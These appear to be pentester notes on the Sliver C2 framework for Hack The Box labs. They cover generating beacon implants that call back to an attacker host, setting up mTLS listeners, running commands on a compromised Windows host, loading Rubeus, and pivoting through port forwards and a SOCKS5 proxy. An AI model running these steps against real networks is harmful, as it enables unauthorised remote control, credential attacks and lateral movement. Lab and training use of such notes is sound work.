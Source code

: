 # Sliver C2  
## Generate a beacon  
sliver > `generate beacon --mtls 10.10.16.20:80 --save /home/kali/HTB/lab/bc1.exe`  
For linux: `generate beacon --os linux --mtls 10.10.16.20:80 --save /home/kali/HTB/lab/bc2`  
    
## Setup the listener  
sliver > `mtls --lhost 10.10.16.20 --lport 80`  

## Navigate  
### Beacons  
sliver > `jobs`   
sliver > `beacons`  
sliver > `use 94ba864f`  
  
[*] Active beacon PERFECT_WALL (94ba864f-991f-4a8f-9242-06c1e66d47b6)    
      
OR     
sliver > `use beacons`   
Select the beacon using arrows to move    
  
### Sessions (interactive)    
Once in the beacon shell, it is possible to turn the beacon shell into a session (interactive) shell with the following command :   
sliver (SOLID_TINDERBOX) > `interactive`    
    
The new session appears :    
sliver (SOLID_TINDERBOX) > `sessions`     
| ID       | Transport | Remote Address     | Hostname | Username                      | Operating System | Health  |
| -------- | --------- | ------------------ | -------- | ----------------------------- | ---------------- | ------- |
| 437faed6 | mtls      | 10.10.110.10:51443 | cywebdw  | NT AUTHORITY\\NETWORK SERVICE | windows/amd64    | [ALIVE] | 
  
sliver (SOLID_TINDERBOX) > `use 437faed6`    
Now we got an interactive session shell.    

## Execute commands in a session   
sliver (PERFECT_WALL) > `execute -o <command>`  

## Load tools  
sliver (PERFECT_WALL) > `armory install rubeus`  

## Port forwarding  
sliver (FORWARD_SPIRITUAL) > `portfwd add -r 10.10.20.10:8161`  
[*] Port forwarding 127.0.0.1:8080 -> 10.10.20.10:8161  

Now the ActiveMQ web interface is accessible through http://127.0.0.1:8080/    

### SOCKS5 Proxy  
**In the current interactive session**  
sliver (CAUTIOUS_FILTH) > `socks5 start`   
[*] Started SOCKS5 127.0.0.1 1081    
  
Then make sure to add `socks5 127.0.0.1 1081` in `/etc/proxychains.conf` and you can use `proxychains <command>`  
  

  
  





